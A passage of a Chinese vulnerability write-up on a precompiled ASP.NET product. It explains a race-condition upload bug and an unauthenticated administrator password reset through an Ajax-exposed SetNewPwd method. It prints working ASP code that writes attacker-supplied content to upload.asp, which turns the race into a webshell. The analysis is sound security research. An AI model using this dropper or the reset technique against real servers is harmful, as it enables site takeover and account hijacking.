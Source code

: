 上传包如下：

[![](https://p1.ssl.qhimg.com/t012c94565efd33ae80.png)](https://p1.ssl.qhimg.com/t012c94565efd33ae80.png)

请求包如下，X参数为我们写入的内容。

[![](https://p1.ssl.qhimg.com/t01a46df2904a41c994.png)](https://p1.ssl.qhimg.com/t01a46df2904a41c994.png)

只要速度够快，就能赶在删除文件之前生成shell

[![](https://p1.ssl.qhimg.com/t01763e5f59ecd2448f.png)](https://p1.ssl.qhimg.com/t01763e5f59ecd2448f.png)

因为整套源码都是已经预编译好的，无法使用ASPX脚本来生成shell（这里踩了很多坑），所以我们这里用的是ASP代码来生成的一句话。代码如下：

```
&lt;%
txtcontent    =  request("x")
PromotionPath = "upload.asp"
WriteToHtml PromotionPath,txtcontent
Function WriteToHtml(Fpath,Templet)
Dim FSO
Dim FCr
Set FSO = CreateObject("Scripting.FileSystemObject")
If FSO.FILEExists(Fpath) Then
FSO.deleteFILE Fpath
End If
Set FCr = FSO.CreateTextFile(Server.MapPath(Fpath), True)
FCr.Write(Templet)
FCr.Close
Set FCr = Nothing
Set FSO = Nothing
End Function
%&gt;
```

由上述过程我们可以看到这种“关门打狗”的处理逻辑在并发的情况下是十分危险的，极易导致条件竞争漏洞的发生。



## 0x03:管理员密码任意重置漏洞

继续观察名单，我发现存在一个recoverpassword.aspx页面，根据命名可以看出这是一个重置密码的页面。我们跟进看看是否存在漏洞。先看Page_Load怎么写的。这里只有一行代码，通过RegisterTypeForAjax注册类信息到前台页面。RecoverPassword就是要调用的类名，一般都是指页面地址。相当于通过前台JS调用后台方法。那么继续往下看

[![](https://p1.ssl.qhimg.com/t01ad73157a6e9292d6.png)](https://p1.ssl.qhimg.com/t01ad73157a6e9292d6.png)

在135行-149之间的SetNewPwd函数，我们可以很明显的看出这是一个重置密码的操作请求。从逻辑上看pwdNew经过encode之后进入到RecoverSystemPassword

我们继续跟进看看。

[![](https://p4.ssl.qhimg.com/t01702a09654d600681.png)](https://p4.ssl.qhimg.com/t01702a09654d600681.png)

这里直接就执行sql语句更新管理员密码了，并没有做其他的校验。很明显我们可以通过ajax调用SetNewPwd函数来修改管理员密码。

